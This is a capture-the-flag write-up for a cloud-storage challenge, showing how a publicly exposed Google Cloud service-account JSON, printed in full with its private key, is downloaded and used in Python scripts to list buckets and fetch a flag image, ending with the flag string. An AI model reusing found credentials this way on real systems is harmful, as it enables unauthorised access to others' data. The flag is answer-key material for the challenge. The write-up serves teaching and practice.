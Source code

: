 # Miscellaneous 

## Out of the Bucket 2

This is a continuation of "Out of the Bucket". Take a look around and see if you find anything!

https://storage.googleapis.com/out-of-the-bucket/src/index.html

---

### Solution

Now, we go to the json file.

![bucket](https://media.discordapp.net/attachments/758115188796162088/1196502915163103242/image.png?ex=65b7dd2c&is=65a5682c&hm=cedc5d1eaa3dcc1484fac0838e04b674d0860cc8ee9a6700d9e11fa8a3662802&=&format=webp&quality=lossless&width=1578&height=1168)

```bash
$ wget https://storage.googleapis.com/out-of-the-bucket/secret/funny.json
--2024-01-16 00:21:00--  https://storage.googleapis.com/out-of-the-bucket/secret/funny.json
Saving to: ‘funny.json’

$ cat funny.json   
{
  "type": "service_account",
  "project_id": "out-of-the-bucket",
  "private_key_id": "21e0c4c5ef71d9df424d40eed4042ffc2e0af224",
  "private_key": "-----BEGIN PRIVATE KEY-----\nMIIEvQIBADANBgkqhkiG9w0BAQEFAASCBKcwggSjAgEAAoIBAQDWxpWEDNiWgMzz\nxDDF64CspqiGPxkrHfhS4/PX8BrxNjUMPAH7vYHE3KbgQsmPhbCte9opnSLdMqec\nWjll8lRZGEy73xhWd2e3tVRAf53r+pW/p6MTOsz3leUkQAscG4hmOVOpGb1AkfuE\n62NErJVZIgQCowrBdFGbPxQc/IRQJKzrCFfKOWSHLvnngr4Ui5CSr6OM33dfpD+v\nQSLkEQheYCXmHwh/Wf8b27be+RzfOp/hOyjKsJOmDvFu2+rrx24t8hCptof3BYol\nUjpaiB8Qcct/HoKOEvZ/S5rW6toQizP8t4t7urC2i70JdH+Y4Qw/AZJNuLo/5wW1\n+x8i3FIDAgMBAAECggEABaGapVC06RVNdQ1tffL+d7MS8296GHWmX34B6bqDlP7S\nhenuNLczoiwVkAcQQ9wXKs/22Lp5rIpkd1FXn0MAT9RhnAIYdZlB4JY3iaK5oEin\nXn67Dt5Ze3BfBq6ghpx43L1KDUKogfs8jgVMoANVEyDfhrYsVQWDZ5T60QZp7bP2\n0zSDSACZpFzdf1vXzOhero8ykwM3keQiCIKWYkeMGsX8oHyWr1fz7AkU+pLciV67\nek10ItJUV70n2C65FgrW2Z1TpPKlpNEm8jQLSax9Bi89HuFEw8UjTfxKKzhLFXEu\nudtAyebt/PC4HS9FLBioo3bAy8vL3o00b7+raVyJQQKBgQD3IWaD5q5s7H0r10S/\n7IUhP1TDYhbLh7pupbzDGzu9wCFCMItwTEm9nYVNToKwV+YpeyoptEHQa4CAVp21\nO4+W7mBQgYemimjTtx1bIW8qzdQ9+ltQXyFAxj6m3KcuAsAzSpcHkbP46lCL5QoT\nTS6T06Fs4xvnTKtBdPeisSgiIwKBgQDee+mp5gsk8ynnp6fx0/liuO3AZxpTYcP8\nixaXLQI6CI4jQP2+P+FWNCTmEJxMaddXNOmmTaKu25S2H0KKMiQkQPuwBqskck3J\npVTHudnUuZAZWE7YPg40MJgg5OQhMVwiqGWL76FT2bubIdNm4LQyxvDeK82XQYl8\nszeOXfJeoQKBgGQqSoXdwwbtF5Lkbr4nnJIsPCvxHvIhskPUs1yVNjKjpBdS28GJ\nej37kaMS1k+pYOWhQSakJCTY3b2m3ccuO/Xd6nXW+mdbJD/jsWdVdtxvjr4MMmSy\nGiVJ9Ozm9G/mt4ZSjkKIIN0cA8ef7uSB3QYXug8LQi0O2z7trM1pZq3nAoGAMPhD\nOSMqRsrC6XtMivzmQmWD5zqKX9oAAmE26rV8bPufFYFjmHGFDq1RhdYYIPWW8Vnz\nJ6ik6ynntKJyyeo5bEVlYJxHJTGHj5+1ZnSwzpK9dearDAu0oqYjhfH7iJbNuc8o\n8sEe2E7vbTjnyBgjcZ26PJyVlvpU4b6stshU5aECgYEA7ZESXuaNV0Er3emHiAz4\noEStvFgzMDi8dILH+PtC3J2EnguVjMy2fceQHxQKP6/DCFlNqf9KUNqJBKVGxRWP\nIM1rcoAmf0sGQ5gl1B1K8PidhOi3dHF0nkYvivuMoj7sEyr9K88y69kdpVJ3J556\nJWqkWLCz8hx+LcQPfDJu0YE=\n-----END PRIVATE KEY-----\n",
  "client_email": "image-server@out-of-the-bucket.iam.gserviceaccount.com",
  "client_id": "102040203348783466577",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/image-server%40out-of-the-bucket.iam.gserviceaccount.com",
  "universe_domain": "googleapis.com"
}
```



```python
# file: list-bucket.py
from google.cloud import storage
# Set the path to your service account key JSON file
key_path = 'funny.json'

# Create a client using the service account key for authentication
client = storage.Client.from_service_account_json(key_path)

# List all available buckets
buckets = client.list_buckets()
for bucket in buckets:
    print(bucket.name)


"""
--> Result <--
flag-images
out-of-the-bucket
"""
```


```python
# file: download-bucket.py
import os
from google.cloud import storage
# Set the path to your service account key JSON file
key_path = 'funny.json'

# Create a client using the service account key for authentication
client = storage.Client.from_service_account_json(key_path)

bucket = client.get_bucket('flag-images')
blobs = bucket.list_blobs()

for blob in blobs:
    if blob.name == "256x192/xa.png":
        # Extract the file name from the blob's name
        file_name = blob.name

        # Define the local path where the file will be downloaded
        local_path = f'./storage/{file_name}'

        # Create the directory if it doesn't exist
        os.makedirs(os.path.dirname(local_path), exist_ok=True)

        # Download the file
        blob.download_to_filename(local_path)
        print(f'Downloaded: {file_name}')

"""
--> Result <--
Downloaded: 256x192/xa.png
"""
```

![flag](https://media.discordapp.net/attachments/758115188796162088/1196505388040863885/xa.png?ex=65b7df7a&is=65a56a7a&hm=8f19d211a90ace8def177b4a5c68eeeb801ca6cb4a238bbc6dc2a25e5e67c2fd&=&format=webp&quality=lossless&width=512&height=384)

### uoftctf{s3rv1c3_4cc0un75_c4n_83_un54f3}